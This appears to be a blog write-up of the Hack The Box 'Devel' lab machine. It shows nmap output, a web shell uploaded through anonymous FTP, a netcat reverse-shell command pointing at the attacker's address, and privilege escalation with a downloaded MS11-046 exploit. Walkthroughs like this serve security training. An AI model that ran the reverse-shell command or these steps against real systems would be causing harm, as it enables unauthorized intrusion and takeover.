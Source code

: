 ```yaml
---
layout: single
title: Devel - Hack The Box
excerpt: "Devel is an Windows machine that is cataloged as easy. In this case, we are going to take advantage of ftp (port 21) that allows anonymous login and let us as attackers upload a web shell and we will be in as the user 'iis appol \ web'. Then with a little help of Windows exploit suggester we get access as root user."
date: 2021-11-30
classes: wide
header:
  teaser: /assets/images/htb-writeup-Devel/logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - easy
  - ftp
  - Windows Exploit suggester

---
```


![](/assets/images/htb-writeup-Devel/logo.png)

Devel is an Windows machine that is cataloged as easy. In this case, we are going to take advantage of ftp (port 21) that allows anonymous login and let us as attackers upload a web shell and we will be in as the user 'iis appol \web'. Then with a little help of Windows exploit suggester we get access as root user.

Machine IP = 10.10.10.5

The first thing I do is to setup my work environment with a Python script that I create which will tell me exactly what machine I'm attacking; At the same time it will create some directories that I normally use (nmap, content, exploit, notes).  

If you want to Clone this repository please refer to [initHack en github](https://github.com/W1nz4c4r/initHACK).

![](/assets/images/htb-writeup-Devel/initHACK.png)

## Port Scan
 After having everything setup I send the **nmap** command:
  * map -sS -sV -sC -p- -vvv -oA allPorts 10.10.10.5

```
Nmap 7.92 scan initiated Thu Nov 18 10:43:20 2021 as: nmap -sS -sV -sC -p- -vvv -oA allPorts 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up, received echo-reply ttl 127 (0.060s latency).
Scanned at 2021-11-18 10:43:26 EST for 312s
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 11-18-21  04:39AM                    7 hello.txt
| 03-17-17  04:37PM                  689 iisstart.htm
| 11-18-21  04:42AM                16392 shell.aspx
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 18 10:48:38 2021 -- 1 IP address (1 host up) scanned in 317.55 seconds
```

## Enumeration

First thing that I usually like to check is if the **ftp** accepts anonymous login and in this case it does.

![](/assets/images/htb-writeup-Devel/ftp-log.png)

Then I check the web page (port 80) and I realized that what is on the FTP seems to be the home folder for the web server, This means that we can upload a webshell through the FTP and access to it form the browser.

![](/assets/images/htb-writeup-Devel/web-page.png)


## Gaining Foothold

We'll create a test file and check if we can upload files to the web server.

```
<html>
  <h1> Test </h1>
</html>
```


upload the file through ftp:


 ![](/assets/images/htb-writeup-Devel/testFTP.png)

 then we go on our browser to **http://10.10.10.5/test.html** and we see that we can upload files to the web Server.


 ![](/assets/images/htb-writeup-Devel/testHTML.png)

 Now we are going to upload a web shell and we have command execution

 ![](/assets/images/htb-writeup-Devel/cmdWEB.png)


 Upload a nc.exe to the webpage so we can get a reverse Shell. once the **nc.exe** is uploaded on the web shell we run the following command to get a reverse shell.

    * \\10.10.14.9\mio\nc.exe -e cmd 10.10.14.9 443


![](/assets/images/htb-writeup-Devel/nc.png)

We are in as the user 'iis apppool\web' but we can't get the user or administrator credentials.

![](/assets/images/htb-writeup-Devel/noAccess.png)

## Privilege Escalation

Usually on windows machines what I do for privilege escalation is to run the 'systeminfo' command and check some information about the system.

```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          1/12/2021, 5:47:19 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.474 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.549 MB
Virtual Memory: In Use:    592 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::1fc
```

Something that got my attention was that the system is running a windows 7 build 7600 which is a relatively old Os and most likely vulnerable to some exploits

![](/assets/images/htb-writeup-Devel/exploit.png)

I downloaded the exploit **MS11-046** already compiled from [github](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046). Once you already have the file you need to upload it to the attacked machine, in my case I did it with **impacket-smbserver**

![](/assets/images/htb-writeup-Devel/impakect.png)

Finally, run the exploit and you will be in as **root**.

![](/assets/images/htb-writeup-Devel/root.png)
